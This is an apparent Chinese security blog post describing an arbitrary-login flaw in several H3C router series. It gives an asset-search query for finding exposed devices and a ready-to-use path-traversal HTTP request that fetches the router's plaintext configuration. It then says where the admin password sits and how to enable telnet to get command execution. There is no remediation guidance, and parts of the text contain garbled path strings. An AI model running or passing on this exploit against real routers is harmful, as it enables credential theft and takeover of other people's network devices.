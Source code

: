 #  H3C多系列路由器存在任意用户登录漏洞   
原创 骇客安全  骇客安全   2025-03-15 17:11  
  
# 一、漏洞简介  
  
 H3C 企业路由器(ERN ERG2N GR 系列》存在任意用户登录和命令 执行漏洞，攻击者可通过访问nserLog in.asp/actionpalicy_status1./xxxx.cfg 接口，xxxx为设备型号（比如设备型号为 ER5200G2 ，即访问userLog in.asp/../actionpolicy_status/../ER5200G2.cfg），统过COOKIE 验证，进行目录穿越，获取 设备的明文配置文件，配置中有明文的web 管理员账号admin 的密码，登陆后台 即可通过开启 telenet 获取命令执行权限    
# 二、影响版本  
- H3C多系列路由器  
# 三、资产测绘  
- hunterapp.name="H3C Router Management"  
- 登录页面  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS2youBFHj3S3h89CL6sJq5UbM7y8s679mSvEIMicjEILibQnl7icg1KiabQ/640?wx_fmt=png&from=appmsg "null")  
# 四、漏洞复现  
1. 访问userLog in.asp/actionpalicy_status1./xxxx.cfg 接口，xxxx为设备型号（比如设备型号为 ER5200G2 ，即访问userLog in.asp/../actionpolicy_status/../ER5200G2.cfg）  
1. 根据设备型号修改payload  
```
GET /userLogin.asp/../actionpolicy_status/../ER2200G2.cfg HTTP/1.1
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS6WXqmicm5tgjUePwAuXxKzcDoNF6lGMDwPHzO4Bgy7BA653Zs5GtVVA/640?wx_fmt=png&from=appmsg "null")  
1. 密码就在<font style="color:rgba(0, 0, 0, 0.9);">vtypasswd</font>  
字段  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS78UPr8PVoGO2Q477oHmFQzib9WNnzqOFiazgbsSPJHEy8icPgGv4LicOXA/640?wx_fmt=png&from=appmsg "null")  
1. 账户为admin  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVSUDLgtoawo0fTt1tZBYUMsicickZq8fdIlPzUFTld4utKbmk6BrPTRgKw/640?wx_fmt=png&from=appmsg "null")  
1. 可在远程管理  
->远程telnet管理  
处开启telnet获取命令执行权限  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS0CbEvibT7NEdYQpIVgGBudaxpJGibTibicgZOvFhMDTUhUAaC7u3MLR5QA/640?wx_fmt=png&from=appmsg "null")  
  
  
  
